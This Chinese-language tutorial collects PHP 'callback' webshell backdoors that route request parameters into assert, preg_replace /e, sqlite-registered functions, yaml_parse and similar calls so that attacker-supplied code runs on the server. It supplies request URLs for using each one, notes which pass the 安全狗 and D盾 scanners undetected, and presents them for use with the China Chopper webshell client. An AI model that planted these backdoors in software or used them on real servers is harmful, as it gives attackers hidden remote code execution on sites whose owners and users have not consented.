Tips:好用不杀的后门

```php
<?php
$e = $_REQUEST['e'];
register_shutdown_function($e, $_REQUEST['pass']);
```

php全版本支持的，且不报不杀稳定执行：

```
http://ip:port/…….php?e=assert&pass=phpinfo();
```

附:

```php
<?php
$e = $_REQUEST['e'];
declare(ticks=1);
register_tick_function ($e, $_REQUEST['pass']);
<?php
filter_var($_REQUEST['pass'], FILTER_CALLBACK, array('options' => 'assert'));
//或者
filter_var_array(array('test' => $_REQUEST['pass']), array('test' => array('filter' => FILTER_CALLBACK, 'options' => 'assert')));
```

这两个是filter_var的利用，php里用这个函数来过滤数组，只要指定过滤方法为回调（FILTER_CALLBACK），且option为assert即可执行assert($_REQUEST['pass']);

### PHP5.4.8+中的assert  二参数回调

php 5.4.8+后的版本，assert函数由一个参数，增加了一个可选参数descrition：

 

这就增加（改变）了一个很好的“执行代码”的方法

这个函数可以有一个参数，也可以有两个参数。那么以前回调后门中有两个参数的回调函数，现在就可以使用了。

比如如下回调后门：

```php
<?php
$e = $_REQUEST['e'];//执行shell的函数或结构assert
$arr = array('test', $_REQUEST['pass']);//shell
uasort($arr, base64_decode($e));   //安全狗 D盾无法检测  uasort会将数组的两个参数都作为第二个函数参数对应的函数的参数
```

这个后门在php5.3时会报错，提示assert只能有一个参数：

 

php版本改作5.4后就可以执行了：

```
url
	http://ip:port/…….php?e=YXNzZXJ0
data
	pass=phpinfo();
```

PHP服务器返回assert('phpinfo();');的执行结果

同样的道理，这个也是功能类似：

```php
<?php
$e = $_REQUEST['e'];
$arr = array('test' => 1, $_REQUEST['pass'] => 2);
uksort($arr, $e);  //按照key的计算结果排序
```

再给出这两个函数，面向对象的方法：

```php
<?php
// way 0
$arr = new ArrayObject(array('test', $_REQUEST['pass']));
$arr->uasort('assert');

// way 1
$arr = new ArrayObject(array('test' => 1, $_REQUEST['pass'] => 2));
$arr->uksort('assert');
```

再来两个类似的回调后门：(具体回调函数的利用需要搜索)

```php
<?php
$e = $_REQUEST['e']; 
$arr = array(1);
array_reduce($arr, $e, $_POST['pass']);?>
    
<?php
$e = $_REQUEST['e'];
$arr = array($_POST['pass']);
$arr2 = array(1);
array_udiff($arr, $arr2, $e);?>
```

以上几个都是可以直接菜刀连接的一句话，但目标PHP版本在5.4.8及以上才可用。

我把上面几个类型归为：二参数回调函数（也就是回调函数的格式是需要两个参数的）

### 三参数回调函数

有些函数需要的回调函数类型比较苛刻，回调格式需要三个参数。比如array_walk。

array_walk的第二个参数是callable类型，正常情况下它的格式是两个参数的，但在0x03中说了，两个参数的回调后门需要使用php5.4.8后的assert，在5.3就不好用了。但这个回调其实也可以接受三个参数

 

php中，可以执行代码的函数：

1. 一个参数：assert
2. 两个参数：assert （php5.4.8+）
3. 三个参数：preg_replace /e模式

构造一个array_walk + preg_replace的回调后门：

```php
<?php
$e = $_REQUEST['e'];
$arr = array($_POST['pass'] => '|.*|e',);
array_walk($arr, $e, '');
//array_walk(array('phpinfo();'=>'|.*|e'),'preg_replace','')  D盾还有警觉  等级2
```

使用请求：

```
POST
url http://ip:port/…….php?e=preg_replace
data pass=phpinfo();
```

但是PHP还有其他灵活的函数，(array_walk_recursive)D盾查不出

```php
<?php
$e = $_REQUEST['e'];
$arr = array($_POST['pass'] => '|.*|e',);
array_walk_recursive($arr, $e, '');
```

php里不止这个preg_replace函数可以执行eval的功能，还有几个类似的：（不杀）

```php
<?php
mb_ereg_replace('.*', $_REQUEST['pass'], '', 'e');
```

另一个：

```php
<?php
echo preg_filter('|.*|e', $_REQUEST['pass'], '');
```

### 无回显回调后门

回调后门里，有个特殊的例子：ob_start。

ob_start可以传入一个参数，也就是当缓冲流输出时调用的函数。

但由于某些特殊原因（可能与输出流有关），即使有执行结果也不在流里，最后也输出不了，所以这样的一句话没法用菜刀连接

```php
<?php
ob_start('assert');
echo $_REQUEST['pass'];
ob_end_flush();
```

但如果执行一个url请求，用神器cloudeye还是能够观测到结果的

 

即使没输出，实际代码是执行了的。也算作回调后门的一种。

### 数据库操作与第三方库中的回调后门

最早微博上发出来的那个sqlite回调后门，其实sqlite可以构造的回调后门不止上述一个。

可以注册一个sqlite函数，使之与assert功能相同。当执行这个sql语句的时候，就等于执行了assert。

```php
<?php
$e = $_REQUEST['e'];
$db = new PDO('sqlite:sqlite.db3');
$db->sqliteCreateFunction('myfunc', $e, 1);//构造 myfunc函数
$sth = $db->prepare("SELECT myfunc(:exec)");//预编译
$sth->execute(array(':exec' => $_REQUEST['pass']));//执行
```

执行

```
http://ip:port/…….php?e=assert&pass=phpinfo();
```

上面的sqlite方法是依靠PDO执行的，我们也可以直接调用sqlite3的方法构造回调后门：

```php
<?php
$e = $_REQUEST['e'];
$db = new SQLite3('sqlite.db3');
$db->createFunction('myfunc', $e);//构造  myfunc函数
$stmt = $db->prepare("SELECT myfunc(?)");//预编译
$stmt->bindValue(1, $_REQUEST['pass'], SQLITE3_TEXT);//变量替换
$stmt->execute();//执行
```

前提是php5.3以上。如果是php5.3以下的，使用sqlite_*函数，自行研究

这两个回调后门，都是依靠php扩展库（pdo和sqlite3）来实现的。其实如果目标环境中有特定扩展库的情况下，也可以来构造回调后门。

如php_yaml:

```php
<?php
$str = urlencode($_REQUEST['pass']);
$yaml = <<<EOD
greeting: !{$str} "|.+|e"
EOD;
$parsed = yaml_parse($yaml, 0, $cnt, array("!{$_REQUEST['pass']}" => 'preg_replace'));
```

还有php_memcached：

```php
<?php
$mem = new Memcache();
$re = $mem->addServer('localhost', 11211, TRUE, 100, 0, -1, TRUE, create_function('$a,$b,$c,$d,$e', 'return assert($a);'));
$mem->connect($_REQUEST['pass'], 11211, 0);
```

自行研究

### 其他参数型回调后门

回调函数格式为1、2、3参数的时候，可以利用assert、assert、preg_replace来执行代码。但如果回调函数的格式是其他参数数目，或者参数类型不是简单字符串，怎么办

php5.5以后建议用preg_replace_callback代替preg_replace的/e模式来处理正则执行替换，那么其实preg_replace_callback也是可以构造回调后门的

preg_replace_callback的第二个参数是回调函数，但这个回调函数被传入的参数是一个数组，如果直接将这个回调函数指定为assert，就会执行不了，因为assert接受的参数是字符串不是数组。

所以需要去“构造”一个满足条件的回调函数

使用create_function

```php
<?php
preg_replace_callback('/.+/i', create_function('$arr', 'return assert($arr[0]);'), $_REQUEST['pass']);//上面的字符串可以进行其他操作
//也可以preg_replace_callback('/.+/i', function($a){return assert($a[0]);} , $_REQUEST['pass']); 但是有关键字assert了
```

“创造”一个函数，它接受一个数组，并将数组的第一个元素$arr[0]传入assert。

但因为有create_function这个敏感函数，所以看起来总是不太爽。

且在PHP 7.2版本中，`create_function()`函数已被弃用，并在PHP 7.4版本中被移除。

类似的

```php
<?php
mb_ereg_replace_callback('.+', create_function('$arr', 'return assert($arr[0]);'), $_REQUEST['pass']);
```

利用CallbackFilterIterator方法的回调后门：

```php
<?php
$iterator = new CallbackFilterIterator(new ArrayIterator(array($_REQUEST['pass'],)), create_function('$a', 'assert($a);'));//新建一个自定义回调函数的迭代器  每一次迭代时都会执行回调函数
foreach ($iterator as $item) {
    echo $item;
}
```

这里也是借用了create_function来创建回调函数。
